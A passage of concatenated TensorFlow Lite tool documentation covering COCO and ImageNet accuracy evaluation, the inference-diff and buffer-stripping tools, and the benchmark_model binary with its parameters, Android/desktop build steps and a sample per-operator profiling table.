    Normalized Bottom: 0.373971
    Normalized Left: 0.613175
    Normalized Right: 0.760507
======================================================

Image: image_2.jpg
...
```

This mode lets you debug the output of an object detection model that isn't
necessarily trained on the COCO dataset (by leaving `ground_truth_proto` empty).
The model output signature would still need to follow the convention mentioned
above, and you we still need an output labels file.

## Preprocessing the minival dataset

To compute mAP in a consistent and interpretable way, we utilize the same 2014
COCO 'minival' dataset that is mentioned in the
[Tensorflow detection model zoo](https://github.com/tensorflow/models/blob/master/research/object_detection/g3doc/tf1_detection_zoo.md).

The links to download the components of the validation set are:

*   [2014 COCO Validation Images](http://images.cocodataset.org/zips/val2014.zip)
*   [2014 COCO Train/Val annotations](http://images.cocodataset.org/annotations/annotations_trainval2014.zip):
    Out of the files from this zip, we only require `instances_val2014.json`.
*   [minival Image IDs](https://github.com/tensorflow/models/blob/master/research/object_detection/data/mscoco_minival_ids.txt) :
    Only applies to the 2014 validation set. You would need to copy the contents
    into a text file.

Since evaluation has to be performed on-device, we first filter the above data
and extract a subset that only contains the images & ground-truth bounding boxes
we need.

To do so, we utilize the `preprocess_coco_minival` Python binary as follows:

```
bazel run //tensorflow/lite/tools/evaluation/tasks/coco_object_detection:preprocess_coco_minival -- \
  --images_folder=/path/to/val2014 \
  --instances_file=/path/to/instances_val2014.json \
  --allowlist_file=/path/to/minival_allowlist.txt \
  --output_folder=/path/to/output/folder

```

Optionally, you can specify a `--num_images=N` argument, to preprocess the first
`N` image files (based on sorted list of filenames).

The script generates the following within the output folder:

*   `images/`: the resulting subset of the 2014 COCO Validation images.

*   `ground_truth.pb`: a `.pb` (binary-format proto) file holding
    `tflite::evaluation::ObjectDetectionGroundTruth` corresponding to image
    subset.

## Running the binary

### On Android

(0) Refer to
https://github.com/tensorflow/tensorflow/tree/master/tensorflow/examples/android
for configuring NDK and SDK.

(1) Build using the following command:

```
bazel build -c opt \
  --config=android_arm64 \
  --cxxopt='--std=c++17' \
  //tensorflow/lite/tools/evaluation/tasks/coco_object_detection:run_eval
```

(2) Connect your phone. Push the binary to your phone with adb push (make the
directory if required):

```
adb push bazel-bin/third_party/tensorflow/lite/tools/evaluation/tasks/coco_object_detection/run_eval /data/local/tmp
```

(3) Make the binary executable.

```
adb shell chmod +x /data/local/tmp/run_eval
```

(4) Push the TFLite model that you need to test:

```
adb push ssd_mobilenet_v1_float.tflite /data/local/tmp
```

(5) Push the model labels text file to device.

```
adb push /path/to/labelmap.txt /data/local/tmp/labelmap.txt
```

(6) Preprocess the dataset using the instructions given in the
[Preprocessing section](#preprocessing-the-minival-dataset) and push the data
(folder containing images & ground truth proto) to the device:

```
adb shell mkdir /data/local/tmp/coco_validation && \
adb push /path/to/output/folder /data/local/tmp/coco_validation
```

(7) Run the binary.

```
adb shell /data/local/tmp/run_eval \
  --model_file=/data/local/tmp/ssd_mobilenet_v1_float.tflite \
  --ground_truth_images_path=/data/local/tmp/coco_validation/images \
  --ground_truth_proto=/data/local/tmp/coco_validation/ground_truth.pb \
  --model_output_labels=/data/local/tmp/labelmap.txt \
  --output_file_path=/data/local/tmp/coco_output.txt
```

Optionally, you could also pass in the `--num_interpreter_threads` &
`--delegate` arguments to run with different configurations.

### On Desktop

(1) Build and run using the following command:

```
bazel run -c opt \
  -- \
  //tensorflow/lite/tools/evaluation/tasks/coco_object_detection:run_eval \
  --model_file=/path/to/ssd_mobilenet_v1_float.tflite \
  --ground_truth_images_path=/path/to/images \
  --ground_truth_proto=/path/to/ground_truth.pb \
  --model_output_labels=/path/to/labelmap.txt \
  --output_file_path=/path/to/coco_output.txt
```
## Inference Diff tool

**NOTE: This is an experimental tool to analyze TensorFlow Lite behavior on
delegates.**

For a given model, this binary compares TensorFlow Lite execution (in terms of
latency & output-value deviation) in two settings:

*   Single-threaded CPU Inference
*   User-defined Inference

To do so, the tool generates random gaussian data and passes it through two
TFLite Interpreters - one running single-threaded CPU kernels and the other
parameterized by the user's arguments.

It measures the latency of both, as well as the absolute difference between the
output tensors from each Interpreter, on a per-element basis.

The final output (logged to stdout) typically looks like this:

```
Num evaluation runs: 50
Reference run latency: avg=84364.2(us), std_dev=12525(us)
Test run latency: avg=7281.64(us), std_dev=2089(us)
OutputDiff[0]: avg_error=1.96277e-05, std_dev=6.95767e-06
```

There is one instance of `OutputDiff` for each output tensor in the model, and
the statistics in `OutputDiff[i]` correspond to the absolute difference in raw
values across all elements for the `i`th output.

## Parameters

(In this section, 'test Interpreter' refers to the User-defined Inference
mentioned above. The reference setting is always single-threaded CPU).

The binary takes the following parameters:

*   `model_file` : `string` \
    Path to the TFlite model file.

and the following optional parameters:

*   `num_runs`: `int` \
    How many runs to perform to compare execution in reference and test setting.
    Default: 50. The binary performs runs 3 invocations per 'run', to get more
    accurate latency numbers.

*   `num_interpreter_threads`: `int` (default=1) \
    This modifies the number of threads used by the test Interpreter for
    inference.

*   `delegate`: `string` \
    If provided, tries to use the specified delegate on the test Interpreter.
    Valid values: "nnapi", "gpu", "hexagon".

    NOTE: Please refer to the
    [Hexagon delegate documentation](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/lite/g3doc/performance/hexagon_delegate.md)
    for instructions on how to set it up for the Hexagon delegate. The tool
    assumes that `libhexagon_interface.so` and Qualcomm libraries lie in
    `/data/local/tmp`.

*   `output_file_path`: `string` \
    The final metrics are dumped into `output_file_path` as a serialized
    instance of `tflite::evaluation::EvaluationStageMetrics`

This script also supports runtime/delegate arguments introduced by the
[delegate registrar](https://github.com/tensorflow/tensorflow/tree/master/tensorflow/lite/tools/delegates).
If there is any conflict (for example, `num_threads` vs
`num_interpreter_threads` here), the parameters of this
script are given precedence.

When **multiple delegates** are specified to be used in the commandline flags
via the support of delegate registrar, the order of delegates applied to the
TfLite runtime will be same as their enabling commandline flag is specified. For
example, "--use_xnnpack=true --use_gpu=true" means applying the XNNPACK delegate
first, and then the GPU delegate secondly. In comparison,
"--use_gpu=true --use_xnnpack=true" means applying the GPU delegate first, and
then the XNNPACK delegate secondly.

Note, one could specify `--help` when launching the binary to see the full list
of supported arguments.

## Running the binary on Android

(1) Build using the following command:

```
bazel build -c opt \
  --config=android_arm64 \
  //tensorflow/lite/tools/evaluation/tasks/inference_diff:run_eval
```

(2) Connect your phone. Push the binary to your phone with adb push (make the
directory if required):

```
adb push bazel-bin/third_party/tensorflow/lite/tools/evaluation/tasks/inference_diff/run_eval /data/local/tmp
```

(3) Push the TFLite model that you need to test. For example:

```
adb push mobilenet_v1_1.0_224.tflite /data/local/tmp
```

(3) Run the binary.

```
adb shell /data/local/tmp/run_eval \
  --model_file=/data/local/tmp/mobilenet_v1_1.0_224.tflite \
  --delegate=gpu
```

(5) Pull the results.

```
adb pull /data/local/tmp/inference_diff.txt ~/accuracy_tool
```
## Image Classification evaluation based on ILSVRC 2012 task

This binary evaluates the following parameters of TFLite models trained for the
[ILSVRC 2012 image classification task](http://www.image-net.org/challenges/LSVRC/2012/):

*   Native pre-processing latency
*   Inference latency
*   Top-K (1 to 10) accuracy values

The binary takes the path to validation images and labels as inputs, along with
the model and inference-specific parameters such as delegate and number of
threads. It outputs the metrics to std-out as follows:

```
Num evaluation runs: 300 # Total images evaluated
Preprocessing latency: avg=13772.5(us), std_dev=0(us)
Inference latency: avg=76578.4(us), std_dev=600(us)
Top-1 Accuracy: 0.733333
Top-2 Accuracy: 0.826667
Top-3 Accuracy: 0.856667
Top-4 Accuracy: 0.87
Top-5 Accuracy: 0.89
Top-6 Accuracy: 0.903333
Top-7 Accuracy: 0.906667
Top-8 Accuracy: 0.913333
Top-9 Accuracy: 0.92
Top-10 Accuracy: 0.923333
```

To run the binary download the ILSVRC 2012 devkit
[see instructions](#downloading-ilsvrc) and run the
[`generate_validation_ground_truth` script](#ground-truth-label-generation) to
generate the ground truth labels.

## Parameters

The binary takes the following parameters:

*   `model_file` : `string` \
    Path to the TFlite model file.

*   `ground_truth_images_path`: `string` \
    The path to the directory containing ground truth images.

*   `ground_truth_labels`: `string` \
    Path to ground truth labels file. This file should contain the same number
    of labels as the number images in the ground truth directory. The labels are
    assumed to be in the same order as the sorted filename of images. See
    [ground truth label generation](#ground-truth-label-generation) section for
    more information about how to generate labels for images.

*   `model_output_labels`: `string` \
    Path to the file containing labels, that is used to interpret the output of
    the model. E.g. in case of mobilenets, this is the path to
    `mobilenet_labels.txt` where each label is in the same order as the output
    1001 dimension tensor.

and the following optional parameters:

*   `denylist_file_path`: `string` \
    Path to denylist file. This file contains the indices of images that are
    denylisted for evaluation. 1762 images are denylisted in ILSVRC dataset.
    For details please refer to readme.txt of ILSVRC2014 devkit.

*   `num_images`: `int` (default=0) \
    The number of images to process, if 0, all images in the directory are
    processed otherwise only num_images will be processed.

*   `num_threads`: `int` (default=4) \
    The number of threads to use for evaluation. Note: This does not change the
    number of TFLite Interpreter threads, but shards the dataset to speed up
    evaluation.

*   `output_file_path`: `string` \
    The final metrics are dumped into `output_file_path` as a string-serialized
    instance of `tflite::evaluation::EvaluationStageMetrics`.

The following optional parameters can be used to modify the inference runtime:

*   `num_interpreter_threads`: `int` (default=1) \
    This modifies the number of threads used by the TFLite Interpreter for
    inference.

*   `delegate`: `string` \
    If provided, tries to use the specified delegate for accuracy evaluation.
    Valid values: "nnapi", "gpu", "hexagon".

    NOTE: Please refer to the
    [Hexagon delegate documentation](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/lite/g3doc/performance/hexagon_delegate.md)
    for instructions on how to set it up for the Hexagon delegate. The tool
    assumes that `libhexagon_interface.so` and Qualcomm libraries lie in
    `/data/local/tmp`.

This script also supports runtime/delegate arguments introduced by the
[delegate registrar](https://github.com/tensorflow/tensorflow/tree/master/tensorflow/lite/tools/delegates).
If there is any conflict (for example, `num_threads` vs
`num_interpreter_threads` here), the parameters of this
script are given precedence.

When **multiple delegates** are specified to be used in the commandline flags
via the support of delegate registrar, the order of delegates applied to the
TfLite runtime will be same as their enabling commandline flag is specified. For
example, "--use_xnnpack=true --use_gpu=true" means applying the XNNPACK delegate
first, and then the GPU delegate secondly. In comparison,
"--use_gpu=true --use_xnnpack=true" means applying the GPU delegate first, and
then the XNNPACK delegate secondly.

Note, one could specify `--help` when launching the binary to see the full list
of supported arguments.

## Downloading ILSVRC

In order to use this tool to run evaluation on the full 50K ImageNet dataset,
download the data set from http://image-net.org/request.

## Ground truth label generation

The ILSVRC 2012 devkit `validation_ground_truth.txt` contains IDs that
correspond to synset of the image. The accuracy binary however expects the
ground truth labels to contain the actual name of category instead of synset
ids. A conversion script has been provided to convert the validation ground
truth to category labels. The `validation_ground_truth.txt` can be converted by
the following steps:

```
ILSVRC_2012_DEVKIT_DIR=[set to path to ILSVRC 2012 devkit]
VALIDATION_LABELS=[set to  path to output]

python third_party/tensorflow/lite/tools/evaluation/tasks/imagenet_image_classification/generate_validation_labels.py \
--ilsvrc_devkit_dir=${ILSVRC_2012_DEVKIT_DIR} \
--validation_labels_output=${VALIDATION_LABELS}
```

## Running the binary

### On Android

(0) Refer to
https://github.com/tensorflow/tensorflow/tree/master/tensorflow/examples/android
for configuring NDK and SDK.

(1) Build using the following command:

```
bazel build -c opt \
  --config=android_arm64 \
  --cxxopt='--std=c++17' \
  //tensorflow/lite/tools/evaluation/tasks/imagenet_image_classification:run_eval
```

(2) Connect your phone. Push the binary to your phone with adb push (make the
directory if required):

```
adb push bazel-bin/tensorflow/lite/tools/evaluation/tasks/imagenet_image_classification/run_eval /data/local/tmp
```

(3) Make the binary executable.

```
adb shell chmod +x /data/local/tmp/run_eval
```

(4) Push the TFLite model that you need to test. For example:

```
adb push mobilenet_quant_v1_224.tflite /data/local/tmp
```

(5) Push the imagenet images to device, make sure device has sufficient storage
available before pushing the dataset:

```
adb shell mkdir /data/local/tmp/ilsvrc_images && \
adb push ${IMAGENET_IMAGES_DIR} /data/local/tmp/ilsvrc_images
```

(6) Push the generated validation ground labels to device.

```
adb push ${VALIDATION_LABELS} /data/local/tmp/ilsvrc_validation_labels.txt
```

(7) Push the model labels text file to device.

```
adb push ${MODEL_LABELS_TXT} /data/local/tmp/model_output_labels.txt
```

(8) Run the binary.

```
adb shell /data/local/tmp/run_eval \
  --model_file=/data/local/tmp/mobilenet_quant_v1_224.tflite \
  --ground_truth_images_path=/data/local/tmp/ilsvrc_images \
  --ground_truth_labels=/data/local/tmp/ilsvrc_validation_labels.txt \
  --model_output_labels=/data/local/tmp/model_output_labels.txt \
  --output_file_path=/data/local/tmp/accuracy_output.txt \
  --num_images=0 # Run on all images.
```

### On Desktop

(1) Build and run using the following command:

```
bazel run -c opt \
  -- \
  //tensorflow/lite/tools/evaluation/tasks/imagenet_image_classification:run_eval \
  --model_file=mobilenet_quant_v1_224.tflite \
  --ground_truth_images_path=${IMAGENET_IMAGES_DIR} \
  --ground_truth_labels=${VALIDATION_LABELS} \
  --model_output_labels=${MODEL_LABELS_TXT} \
  --output_file_path=/tmp/accuracy_output.txt \
  --num_images=0 # Run on all images.
```
# TFLite Buffer-Stripping Tool/Library

**NOTE: This is an advanced tool used to reduce bandwidth usage in Neural
Architecture Search applications. Use with caution.**

The tools in this directory make it easier to distribute TFLite models to
multiple devices over networks with the sole aim of benchmarking *latency*
performance. The intended workflow is as follows:

*   The stripping tool empties eligible constants from a TFLite flatbuffer to
    reduce its size.
*   This lean model can be easily transported to devices over a network.
*   The reconstitution tool on the device takes in a flatbuffer in memory, and
    fills in the appropriate buffers with random data.

As an example, see the before/after sizes for MobileNetV1:

*   Float: 16.9MB -> 12KB
*   Quantized: 4.3MB -> 17.6 KB

**NOTE: This tool only supports single subgraphs for now.**

There are two tools in this directory:

## 1. Stripping buffers out of TFLite flatbuffers

This tool takes in an input `flatbuffer`, and strips out (or 'empties') the
buffers (constant data) for tensors that follow the following guidelines:

*   Are either of: Float32, Int32, UInt8, Int8
*   If Int32, the tensor should have a min of 10 elements

The second rule above protects us from invalidating constant data that cannot be
randomised (for example, Reshape 'shape' input).

To run the associated script:

```
bazel run -c opt tensorflow/lite/tools/strip_buffers:strip_buffers_from_fb -- --input_flatbuffer=/input/path.tflite --output_flatbuffer=/output/path.tflite
```

## 2. Stripping buffers out of TFLite flatbuffers

The idea here is to reconstitute the lean flatbuffer `Model` generared in the
above step, by filling in random data whereever necessary.

The prototype script can be called as:

```
bazel run -c opt tensorflow/lite/tools/strip_buffers:reconstitute_buffers_into_fb -- --input_flatbuffer=/input/path.tflite --output_flatbuffer=/output/path.tflite
```

## C++ Library

Both the above tools are present as `stripping_lib` in this directory, which
mutate the flatbuffer(s) in-memory. This ensures we can do the above two steps
without touching the filesystem again.
# TFLite Model Benchmark Tool with C++ Binary

## Description

A simple C++ binary to benchmark a TFLite model and its individual operators,
both on desktop machines and on Android. The binary takes a TFLite model,
generates random inputs and then repeatedly runs the model for specified number
of runs. Aggregate latency statistics are reported after running the benchmark.

The instructions below are for running the binary on Desktop and Android,
for iOS please use the
[iOS benchmark app](https://github.com/tensorflow/tensorflow/tree/master/tensorflow/lite/tools/benchmark/ios).

An experimental Android APK wrapper for the benchmark model utility offers more
faithful execution behavior on Android (via a foreground Activity). It is
located
[here](https://github.com/tensorflow/tensorflow/tree/master/tensorflow/lite/tools/benchmark/android).

## Parameters

The binary takes the following required parameters:

*   `graph`: `string` \
    The path to the TFLite model file.

and the following optional parameters:

*   `num_threads`: `int` (default=-1) \
    The number of threads to use for running TFLite interpreter. By default,
    this is set to the platform default value -1.
*   `warmup_runs`: `int` (default=1) \
    The number of warmup runs to do before starting the benchmark.
*   `num_runs`: `int` (default=50) \
    The number of runs. Increase this to reduce variance.
*   `run_delay`: `float` (default=-1.0) \
    The delay in seconds between subsequent benchmark runs. Non-positive values
    mean use no delay.
*   `run_frequency`: `float` (default=-1.0) \
    The frequency of running a benchmark run as the number of prorated runs per
    second. If the targeted rate per second cannot be reached, the benchmark
    would start the next run immediately, trying its best to catch up. If set,
    this will override the `run_delay` parameter. A non-positive value means
    there is no delay between subsequent runs.
*   `enable_op_profiling`: `bool` (default=false) \
    Whether to enable per-operator profiling measurement.
*   `max_profiling_buffer_entries`: `int` (default=1024) \
    The max number of profiling events that will be stored during each inference
    run. It is only meaningful when `enable_op_profiling` is set to `true`.
    Note, the actual value of this parameter will be adjusted if the model has
    more nodes than the specified value of this parameter.
*   `profiling_output_csv_file`: `str` (default="") \
    File path to export profile data to as CSV. The results are printed to
    `stdout` if option is not set. Requires `enable_op_profiling` to be `true`
    and the path to include the name of the output CSV; otherwise results are
    printed to `stdout`.
*  `print_preinvoke_state`: `bool` (default=false) \
    Whether to print out the TfLite interpreter internals just before calling
    tflite::Interpreter::Invoke. The internals will include allocated memory
    size of each tensor etc. Enabling this could help understand TfLite graph
    and memory usage.
*  `print_postinvoke_state`: `bool` (default=false) \
    Whether to print out the TfLite interpreter internals just before benchmark
    completes (i.e. after all repeated Invoke calls complete). The internals
    will include allocated memory size of each tensor etc. Enabling this could
    help understand TfLite graph and memory usage, particularly when there are
    dynamic-shaped tensors in the graph.
*  `report_peak_memory_footprint`: `bool` (default=false) \
    Whether to report the peak memory footprint by periodically checking the
    memory footprint. Internally, a separate thread will be spawned for this
    periodic check. Therefore, the performance benchmark result could be
    affected.
*  `memory_footprint_check_interval_ms`: `int` (default=50) \
   The interval in millisecond between two consecutive memory footprint checks.
   This is only used when --report_peak_memory_footprint is set to true.

*  `dry_run`: `bool` (default=false) \
    Whether to run the tool just with simply loading the model, allocating
    tensors etc. but without actually invoking any op kernels.
*  `verbose`: `bool` (default=false) \
    Whether to log parameters whose values are not set. By default, only log
    those parameters that are set by parsing their values from the commandline
    flags.
*  `release_dynamic_tensors`: `bool` (default=false) \
    Whether to configure the Interpreter to immediately release the memory of
    dynamic tensors in the graph once they are not used.

### Model input parameters
By default, the tool will use randomized data for model inputs. The following
parameters allow users to specify customized input values to the model when
running the benchmark tool:

*   `input_layer`: `string` \
    A comma-separated list of input layer names, e.g. 'input1,input2'. Note all
    inputs of the model graph need to be specified. However, the input name
    does not need to match that encoded in the model. Additionally, the order
    of input layer names specified here is assumed to be same with that is seen
    by the Tensorflow Lite interpreter. This is a bit inconvenient but the
    [visualization tool](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/lite/tools/visualize.py)
    should help to find this order.
*   `input_layer_shape`: `string` \
    A colon-separated list of input layer shapes, where each shape is a
    comma-separated list, e.g. '1,30:1,10'. Similar to `input_layer`, this
    parameter also requires shapes of all inputs be specified, and the order of
    inputs be same with that is seen by the interpreter.
*   `input_layer_value_range`: `string` \
    A map-like string representing value range for *integer* input layers. Each
    item is separated by ':', and the item value consists of input layer name
    and integer-only range values (both low and high are inclusive) separated by
    ',', e.g. 'input1,1,2:input2,0,254'. Note that the input layer name must
    exist in the list of names specified by `input_layer`.
*   `input_layer_value_files`: `string` \
    A map-like string representing files that contain input values. Each
    item is separated by ',', and the item value consists of input layer name
    and the file path separated by ':',
    e.g. 'input1:file_path1,input2:file_path2'. If a input name appears in both
    `input_layer_value_range` and `input_layer_value_files`,
    the corresponding input value range specified by`input_layer_value_range`
    will be ignored. The file format is binary, and the content should be either
    a byte array or null-separated strings. Note that the inpput layer name must
    also exist in the list of names specified by `input_layer`.

### TFLite delegate parameters
The tool supports all runtime/delegate parameters introduced by
[the delegate registrar](https://github.com/tensorflow/tensorflow/tree/master/tensorflow/lite/tools/delegates).
The following simply lists the names of these parameters and additional notes
where applicable. For details about each parameter, please refer to
[this page](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/lite/tools/delegates/README.md#tflite-delegate-registrar).
#### Common parameters
* `max_delegated_partitions`: `int` (default=0)
* `min_nodes_per_partition`:`int` (default=0)
* `delegate_serialize_dir`: `str` (default="")
* `delegate_serialize_token`: `str` (default="")

#### GPU delegate
* `use_gpu`: `bool` (default=false)
* `gpu_precision_loss_allowed`: `bool` (default=true)
* `gpu_experimental_enable_quant`: `bool` (default=true)
* `gpu_inference_for_sustained_speed`: `bool` (default=false)
* `gpu_backend`: `string` (default="")
* `gpu_wait_type`: `str` (default="")

#### NNAPI delegate

*   `use_nnapi`: `bool` (default=false) \
    Note some Android P devices will fail to use NNAPI for models in
    `/data/local/tmp/` and this benchmark tool will not correctly use NNAPI.
*   `nnapi_execution_preference`: `str` (default="") \
    Should be one of: `fast_single_answer`, `sustained_speed`, `low_power`,
    `undefined`.
*   `nnapi_execution_priority`: `str` (default="") \
    Note this requires Android 11+.
*   `nnapi_accelerator_name`: `str` (default="") \
    Note this requires Android 10+.
*   `disable_nnapi_cpu`: `bool` (default=true)
*   `nnapi_allow_fp16`: `bool` (default=false)
*   `nnapi_allow_dynamic_dimensions`:`bool` (default=false)
*   `nnapi_use_burst_mode`:`bool` (default=false)

#### Hexagon delegate
* `use_hexagon`: `bool` (default=false)
* `hexagon_profiling`: `bool` (default=false) \
Note enabling this option will not produce profiling results outputs unless
`enable_op_profiling` is also turned on. When both parameters are set to true,
the profile of ops on hexagon DSP will be added to the profile table. Note that,
the reported data on hexagon is in cycles, not in ms like on cpu.

#### XNNPACK delegate
*   `use_xnnpack`: `bool` (default=false) \
Note if this option is explicitly set to `false`, the TfLite runtime will use
its original CPU kernels for model execution. In other words, after enabling
the feature that the XNNPACK delegate is applied by default in TfLite runtime,
explictly setting this flag to `false` will cause the benchmark tool to disable
the feature at runtime, and to use the original non-delegated CPU execution path
for model benchmarking.

#### CoreML delegate
*   `use_coreml`: `bool` (default=false)
*   `coreml_version`: `int` (default=0)

#### External delegate
*   `external_delegate_path`: `string` (default="")
*   `external_delegate_options`: `string` (default="")

As some delegates are only available on certain platforms, when running the
benchmark tool on a particular platform, specifying `--help` will print out all
supported parameters.

### Use multiple delegates
When multiple delegates are specified to be used in the commandline flags, the
order of delegates applied to the TfLite runtime will be same as their enabling
commandline flag is specified. For example, "--use_xnnpack=true --use_gpu=true"
means applying the XNNPACK delegate first, and then the GPU delegate secondly.
In comparison, "--use_gpu=true --use_xnnpack=true" means applying the GPU
delegate first, and then the XNNPACK delegate secondly.

## To build/install/run

### On Android:

(0) Refer to https://www.tensorflow.org/lite/guide/build_android to edit the
`WORKSPACE` to configure the android NDK/SDK.

(1) Build for your specific platform, e.g.:

```
bazel build -c opt \
  --config=android_arm64 \
  tensorflow/lite/tools/benchmark:benchmark_model
```

(2) Connect your phone. Push the binary to your phone with adb push
     (make the directory if required):

```
adb push bazel-bin/tensorflow/lite/tools/benchmark/benchmark_model /data/local/tmp
```

(3) Make the binary executable.

```
adb shell chmod +x /data/local/tmp/benchmark_model
```

(4) Push the compute graph that you need to test. For example:

```
adb push mobilenet_quant_v1_224.tflite /data/local/tmp
```

(5) Optionally, install Hexagon libraries on device.

That step is only needed when using the Hexagon delegate.

```
bazel build --config=android_arm64 \
  tensorflow/lite/delegates/hexagon/hexagon_nn:libhexagon_interface.so
adb push bazel-bin/tensorflow/lite/delegates/hexagon/hexagon_nn/libhexagon_interface.so /data/local/tmp
adb push libhexagon_nn_skel*.so /data/local/tmp
```

(6) Run the benchmark. For example:

```
adb shell /data/local/tmp/benchmark_model \
  --graph=/data/local/tmp/mobilenet_quant_v1_224.tflite \
  --num_threads=4
```

### On desktop:
(1) build the binary

```
bazel build -c opt tensorflow/lite/tools/benchmark:benchmark_model
```

(2) Run on your compute graph, similar to the Android case but without the need of adb shell.
For example:

```
bazel-bin/tensorflow/lite/tools/benchmark/benchmark_model \
  --graph=mobilenet_quant_v1_224.tflite \
  --num_threads=4
```

The MobileNet graph used as an example here may be downloaded from [here](https://storage.googleapis.com/download.tensorflow.org/models/tflite/mobilenet_v1_224_android_quant_2017_11_08.zip).


## Reducing variance between runs on Android.

Most modern Android phones use [ARM big.LITTLE](https://en.wikipedia.org/wiki/ARM_big.LITTLE)
architecture where some cores are more power hungry but faster than other cores.
When running benchmarks on these phones there can be significant variance
between different runs of the benchmark. One way to reduce variance between runs
is to set the [CPU affinity](https://en.wikipedia.org/wiki/Processor_affinity)
before running the benchmark. On Android this can be done using the `taskset`
command.
E.g. for running the benchmark on big cores on Pixel 2 with a single thread one
can use the following command:

```
adb shell taskset f0 /data/local/tmp/benchmark_model \
  --graph=/data/local/tmp/mobilenet_quant_v1_224.tflite \
  --num_threads=1
```

where `f0` is the affinity mask for big cores on Pixel 2.
Note: The affinity mask varies with the device.

## Profiling model operators
The benchmark model binary also allows you to profile operators and give
execution times of each operator. To do this, pass the flag
`--enable_op_profiling=true` to `benchmark_model` during invocation, e.g.,

```
adb shell taskset f0 /data/local/tmp/benchmark_model \
  --graph=/data/local/tmp/mobilenet_quant_v1_224.tflite \
  --enable_op_profiling=true
```

When enabled, the `benchmark_model` binary will produce detailed statistics for
each operation similar to those shown below:

```

============================== Run Order ==============================
	             [node type]	  [start]	  [first]	 [avg ms]	     [%]	  [cdf%]	  [mem KB]	[times called]	[Name]
	                 CONV_2D	    0.000	    4.269	    4.269	  0.107%	  0.107%	     0.000	        0	[MobilenetV1/MobilenetV1/Conv2d_0/Relu6]
	       DEPTHWISE_CONV_2D	    4.270	    2.150	    2.150	  0.054%	  0.161%	     0.000	        0	[MobilenetV1/MobilenetV1/Conv2d_1_depthwise/Relu6]
	                 CONV_2D	    6.421	    6.107	    6.107	  0.153%	  0.314%	     0.000	        0	[MobilenetV1/MobilenetV1/Conv2d_1_pointwise/Relu6]
	       DEPTHWISE_CONV_2D	   12.528	    1.366	    1.366	  0.034%	  0.348%	     0.000	        0	[MobilenetV1/MobilenetV1/Conv2d_2_depthwise/Relu6]
	                 CONV_2D	   13.895	    4.195	    4.195	  0.105%	  0.454%	     0.000	        0	[MobilenetV1/MobilenetV1/Conv2d_2_pointwise/Relu6]
	       DEPTHWISE_CONV_2D	   18.091	    1.260	    1.260	  0.032%	  0.485%	     0.000	        0	[MobilenetV1/MobilenetV1/Conv2d_3_depthwise/Relu6]
	                 CONV_2D	   19.352	    6.652	    6.652	  0.167%	  0.652%	     0.000	        0	[MobilenetV1/MobilenetV1/Conv2d_3_pointwise/Relu6]
	       DEPTHWISE_CONV_2D	   26.005	    0.698	    0.698	  0.018%	  0.670%	     0.000	        0	[MobilenetV1/MobilenetV1/Conv2d_4_depthwise/Relu6]
	                 CONV_2D	   26.703	    3.344	    3.344	  0.084%	  0.754%	     0.000	        0	[MobilenetV1/MobilenetV1/Conv2d_4_pointwise/Relu6]
	       DEPTHWISE_CONV_2D	   30.047	    0.646	    0.646	  0.016%	  0.770%	     0.000	        0	[MobilenetV1/MobilenetV1/Conv2d_5_depthwise/Relu6]
	                 CONV_2D	   30.694	    5.800	    5.800	  0.145%	  0.915%	     0.000	        0	[MobilenetV1/MobilenetV1/Conv2d_5_pointwise/Relu6]
	       DEPTHWISE_CONV_2D	   36.495	    0.331	    0.331	  0.008%	  0.924%	     0.000	        0	[MobilenetV1/MobilenetV1/Conv2d_6_depthwise/Relu6]
	                 CONV_2D	   36.826	    2.838	    2.838	  0.071%	  0.995%	     0.000	        0	[MobilenetV1/MobilenetV1/Conv2d_6_pointwise/Relu6]
	       DEPTHWISE_CONV_2D	   39.665	    0.439	    0.439	  0.011%	  1.006%	     0.000	        0	[MobilenetV1/MobilenetV1/Conv2d_7_depthwise/Relu6]
	                 CONV_2D	   40.105	    5.293	    5.293	  0.133%	  1.139%	     0.000	        0	[MobilenetV1/MobilenetV1/Conv2d_7_pointwise/Relu6]
	       DEPTHWISE_CONV_2D	   45.399	    0.352	    0.352	  0.009%	  1.147%	     0.000	        0	[MobilenetV1/MobilenetV1/Conv2d_8_depthwise/Relu6]
	                 CONV_2D	   45.752	    5.322	    5.322	  0.133%	  1.281%	     0.000	        0	[MobilenetV1/MobilenetV1/Conv2d_8_pointwise/Relu6]
	       DEPTHWISE_CONV_2D	   51.075	    0.357	    0.357	  0.009%	  1.290%	     0.000	        0	[MobilenetV1/MobilenetV1/Conv2d_9_depthwise/Relu6]
	                 CONV_2D	   51.432	    5.693	    5.693	  0.143%	  1.433%	     0.000	        0	[MobilenetV1/MobilenetV1/Conv2d_9_pointwise/Relu6]
	       DEPTHWISE_CONV_2D	   57.126	    0.366	    0.366	  0.009%	  1.442%	     0.000	        0	[MobilenetV1/MobilenetV1/Conv2d_10_depthwise/Relu6]
	                 CONV_2D	   57.493	    5.472	    5.472	  0.137%	  1.579%	     0.000	        0	[MobilenetV1/MobilenetV1/Conv2d_10_pointwise/Relu6]
	       DEPTHWISE_CONV_2D	   62.966	    0.364	    0.364	  0.009%	  1.588%	     0.000	        0	[MobilenetV1/MobilenetV1/Conv2d_11_depthwise/Relu6]
	                 CONV_2D	   63.330	    5.404	    5.404	  0.136%	  1.724%	     0.000	        0	[MobilenetV1/MobilenetV1/Conv2d_11_pointwise/Relu6]
	       DEPTHWISE_CONV_2D	   68.735	    0.155	    0.155	  0.004%	  1.728%	     0.000	        0	[MobilenetV1/MobilenetV1/Conv2d_12_depthwise/Relu6]
	                 CONV_2D	   68.891	    2.970	    2.970	  0.074%	  1.802%	     0.000	        0	[MobilenetV1/MobilenetV1/Conv2d_12_pointwise/Relu6]
	       DEPTHWISE_CONV_2D	   71.862	    0.206	    0.206	  0.005%	  1.807%	     0.000	        0	[MobilenetV1/MobilenetV1/Conv2d_13_depthwise/Relu6]
	                 CONV_2D	   72.069	    5.888	    5.888	  0.148%	  1.955%	     0.000	        0	[MobilenetV1/MobilenetV1/Conv2d_13_pointwise/Relu6]
	         AVERAGE_POOL_2D	   77.958	    0.036	    0.036	  0.001%	  1.956%	     0.000	        0	[MobilenetV1/Logits/AvgPool_1a/AvgPool]
	                 CONV_2D	   77.994	    1.445	    1.445	  0.036%	  1.992%	     0.000	        0	[MobilenetV1/Logits/Conv2d_1c_1x1/BiasAdd]
	                 RESHAPE	   79.440	    0.002	    0.002	  0.000%	  1.992%	     0.000	        0	[MobilenetV1/Predictions/Reshape]
